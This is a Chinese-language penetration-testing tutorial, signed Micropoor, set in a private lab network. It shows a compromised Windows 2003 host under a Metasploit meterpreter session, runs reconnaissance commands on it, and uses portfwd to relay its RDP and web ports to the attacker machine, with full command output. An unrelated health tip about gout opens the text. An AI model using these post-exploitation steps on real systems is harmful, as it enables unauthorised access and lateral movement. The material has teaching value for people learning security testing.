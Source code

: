 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

portfwd是一款强大的端口转发工具，支持TCP，UDP，支持IPV4--IPV6的转换转发。并且内置于meterpreter。其中exe单版本源码如下：

https://github.com/rssnsj/portfwd

**攻击机：**   
192.168.1.5 Debian

**靶机：**   
192.168.1.4 Windows 7  
192.168.1.119 Windows 2003

```bash
msf exploit(multi/handler) \> sessions ‐l 

Active sessions
===============

Id Name Type Information Connection
‐‐ ‐‐‐‐ ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐
1 meterpreter x86/windows WIN03X64\Administrator @ WIN03X64 192.168.1.5:45303 ‐> 192.168.1.119:53 (192.168.1.119)

msf exploit(multi/handler) > sessions ‐i 1 ‐c 'ipconfig'
[*] Running 'ipconfig' on meterpreter session 1 (192.168.1.119) 

Windows IP Configuration 

Ethernet adapter 本地连接:

Connection‐specific DNS Suffix . :

IP Address. . . . . . . . . . . . : 192.168.1.119
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.1.1 22
```

![](media/95a0281ab0b49f1d079443a830c7244b.jpg)

靶机IP为：  
192.168.1.119---windows 2003---x64

需要转发端口为：80，3389
```bash
msf exploit(multi/handler) > sessions ‐i 1
[*] Starting interaction with 1... 

meterpreter > shell
Process 4012 created.
Channel 56 created.
Microsoft Windows [版本 5.2.3790]
(C) 版权所有 1985‐2003 Microsoft Corp.

C:\Documents and Settings\Administrator\桌面>if defined PSModulePath (echo ok!) else (echo sorry!)
if defined PSModulePath (echo ok!) else (echo sorry!)
sorry! 

C:\Documents and Settings\Administrator\桌面>net config Workstation
net config Workstation
计算机名 \\WIN03X64
计算机全名 win03x64
用户名 Administrator

工作站正运行于
NetbiosSmb (000000000000)
NetBT_Tcpip_{37C12280‐A19D‐4D1A‐9365‐6CBF2CAE5B07} (000C2985D67D) 

软件版本 Microsoft Windows Server 2003

工作站域 WORKGROUP
登录域 WIN03X64

COM 打开超时 (秒) 0
COM 发送计数 (字节) 16
COM 发送超时 (毫秒) 250
命令成功完成。

C:\Documents and Settings\Administrator\桌面>netstat ‐an|findstr "LIST ENING"
netstat ‐an|findstr "LISTENING"
TCP 0.0.0.0:80 0.0.0.0:0 LISTENING
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING
TCP 0.0.0.0:445 0.0.0.0:0 LISTENING
TCP 0.0.0.0:1025 0.0.0.0:0 LISTENING
TCP 0.0.0.0:1026 0.0.0.0:0 LISTENING
TCP 0.0.0.0:3078 0.0.0.0:0 LISTENING
TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING
TCP 0.0.0.0:9001 0.0.0.0:0 LISTENING
TCP 127.0.0.1:2995 0.0.0.0:0 LISTENING
TCP 127.0.0.1:9000 0.0.0.0:0 LISTENING
TCP 127.0.0.1:9999 0.0.0.0:0 LISTENING
TCP 192.168.1.119:139 0.0.0.0:0 LISTENING 
```
![](media/f02edb927e950780d1f3db9a63051704.jpg)

```bash
meterpreter > portfwd ‐h
Usage: portfwd [‐h] [add | delete | list | flush] [args] 

OPTIONS:
‐L <opt> Forward: local host to listen on (optional). Reverse: local host to connect to.
‐R Indicates a reverse port forward.
‐h Help banner.
‐i <opt> Index of the port forward entry to interact with (see the "list" command).
‐l <opt> Forward: local port to listen on. Reverse: local port to connect to.
‐p <opt> Forward: remote port to connect to. Reverse: remote port to listen on.
‐r <opt> Forward: remote host to connect to. 
```
![](media/97a637b2eabb1ba9e3461876e52d52bd.jpg)


**攻击机执行：**
```bash
meterpreter > portfwd add ‐l 33389 ‐r 192.168.1.119 ‐p 3389
[*] Local TCP relay created: :33389 <‐> 192.168.1.119:3389
meterpreter > portfwd add ‐l 30080 ‐r 192.168.1.119 ‐p 80
[*] Local TCP relay created: :30080 <‐> 192.168.1.119:80
meterpreter > portfwd 

Active Port Forwards
==================== 
Index Local Remote Direction
‐‐‐‐‐ ‐‐‐‐‐ ‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐
1 0.0.0.0:33389 192.168.1.119:3389 Forward
2 0.0.0.0:30080 192.168.1.119:80 Forward 

2 total active port forwards.
```
![](media/c401d37dd5c3a91f5849712ac32fec62.jpg)

![](media/efa3f888364f0a9c68d08681ff071d1a.jpg)

查看攻击机LISTEN端口：转发已成功
```bash
root@John:~# netstat ‐ntlp |grep :3
tcp 0 0 0.0.0.0:33389 0.0.0.0:* LISTEN 2319/ruby
tcp 0 0 0.0.0.0:30080 0.0.0.0:* LISTEN 2319/ruby 4
```
![](media/6a0efefd3fd932404661acb1a3048550.jpg)

Windows 7 分别访问攻击机33389，30080，既等价访问靶机3389，80  

![](media/4f26effa8487978945eea66754b9e575.jpg)

![](media/c007b1fcde98338dd491f671a19888b6.jpg)


>   Micropoor
